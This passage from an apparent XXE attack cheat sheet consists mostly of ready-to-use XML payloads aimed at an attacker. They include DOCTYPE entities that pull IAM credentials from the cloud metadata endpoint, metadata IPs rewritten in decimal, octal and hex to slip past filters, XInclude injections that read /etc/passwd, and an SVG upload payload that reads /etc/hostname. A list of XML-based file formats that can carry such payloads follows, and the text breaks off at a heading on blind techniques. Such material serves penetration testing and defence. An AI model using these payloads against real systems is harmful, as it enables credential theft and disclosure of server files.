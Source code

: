#### Cloud Metadata Access
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

#### Alternative IP Formats
```xml
<!-- Decimal notation -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2852039166/"> ]>

<!-- Octal notation -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://0330.0250.0000.0001/"> ]>

<!-- Hex notation -->
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://0xA9FEA9FE/"> ]>
```

## Advanced XXE Techniques

### XInclude Attacks
For applications that accept XML input without a DTD or DOCTYPE, use XInclude:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example in a form parameter:
```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### XXE via File Upload
SVG file with XXE payload:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Other file types supporting XML:
* DOCX/XLSX (Microsoft Office)
* PPTX
* ODT (OpenOffice)
* PDF (some versions)
* XML-based image formats (SVG, SVGZ)

## Blind XXE Techniques
